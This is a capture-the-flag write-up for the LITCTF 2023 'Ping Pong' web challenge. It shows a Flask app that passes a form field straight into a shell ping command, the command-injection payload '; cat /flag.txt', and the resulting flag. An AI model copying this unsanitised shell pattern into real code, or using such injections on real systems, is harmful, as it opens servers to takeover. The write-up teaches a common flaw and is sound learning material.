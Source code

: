 ```yaml
---
title: 2023 LITCTF - Ping Pong
author: thanguyen165
date: 2023-08-08 00:00:00 +0700
categories: [Write-ups, 2023_LITCTF]
tags: [Web Exploitation, write-ups]
---
```


* 387 solves / 114 points
* Author: Ethan

## Description

> I made this cool website where you can ping other websites!

### Attached

[pingpong.zip](http://34.27.167.72/dl/?web%2FPing+Pong%2Fpingpong.zip=)

```py
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output=output)

```
{: file="pingpong.py" }

## Analyzation

When receiving ```hostname``` from ```POST``` method, the command will be executed without checking data from ```hostname```
```py
cmd = "ping -c 3 " + hostname
output = os.popen(cmd).read()
```

This leads to [command injection](https://owasp.org/www-community/attacks/Command_Injection).

## Solution

POST the ```hostname```
```
; cat /flag.txt
```

The flag is
```
LITCTF{I_sh0uld_b3_m0r3_c4r3ful}
```